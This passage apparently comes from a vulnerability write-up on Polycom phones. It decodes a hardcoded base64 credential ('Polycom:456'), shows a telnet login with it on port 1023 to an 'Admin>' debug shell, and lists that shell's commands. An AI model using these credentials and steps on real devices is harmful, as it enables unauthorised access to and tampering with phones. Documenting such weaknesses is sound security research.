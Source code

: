 
```
In [5]: print(base64.b64decode("UG9seWNvbTo0NTY=").decode("utf-8"))
Polycom:456
```

```
$ telnet xxx.xxx.xxx.xxx 1023
Trying xxx.xxx.xxx.xxx...
Connected to xxx.xxx.xxx.xxx.
Escape character is '^]'.

User: Polycom
Password:

Admin>
```

Through these information we listed the following existing commands:

```
Admin>help
 -
addScheduledLogEntry - Adds a command to be run periodically that outputs to the phone's log.
appPrt - Show UI's call status.
arpShow - Display the contents of the ARP table.
auth - Change authentication level
BtoeHide - Send call hide request.
BtoeUnhide - Send call Unhide request.
certBackOffInfo - Show Cert Back off info
certBackOffSet - Show Cert Back off info
cfgAndroidAppsList - List Android apps, param is list permissions
cfgParamName - Show cfg Param info by passing param name
cfgProvFileTemplateUpload - Uploads templates of the current non-default config to the boot server
cfgProvFlashTemplateUpload - Uploads templates of the current flash config to the boot server
checkStack - Checks the stack.
configSyslogSet - Set Syslog parameters in the flash.
		(Server Address, Server Type, Facility, Render level, Prepend MAC)
confShow - Show conference info.
contentIFrameRequest - request I-Frame from PPCIP/RPD
contentResRequest - request content resolution change
coreAudio - Print core audio information.
coreDumpEncrypt - Set to enable core dump encryption.
cpuLoadShow - Display CPU load (period (s), number of iterations).
cpuUsageShow - Display CPU usage by running Linux top command. [pid]
date - Display the current date.
dbsinfo - Display the database service information
deferwatchdog - Defer All watchdog timers
dhcpcParamsShow - Show DHCP client parameters.
dnsCacheShow - Show DNS cache records.
dosFsShow - Display file system statistics.
dspLoadShow - Display DSP load (period (s), number of iterations).
dump - Dump file to terminal, including decompressing compressed files
endErrShow - Show END device error stats.
ethBufPoolShow - Display the state of the ethernet pool stack(no parameters)
ethFilterShow - Show Ethernet ingress filter stats.
fschk - Check phone's file system
getLyncStatusInfo - Display Lync Status Information
help - Shows basic help for all commands.
hostShow - Show host table.
i - Display status of the specified process, or all running processes (Process_name (optional))
icmpstatShow - Show ICMP statistics.
ifShow - Display ethernet interface statistics (no parameters)
inetstatShow - Show transport layer network status.
iosFdShow - Show file descriptors in use.
ipstatShow - Show IP layer network statistics.
```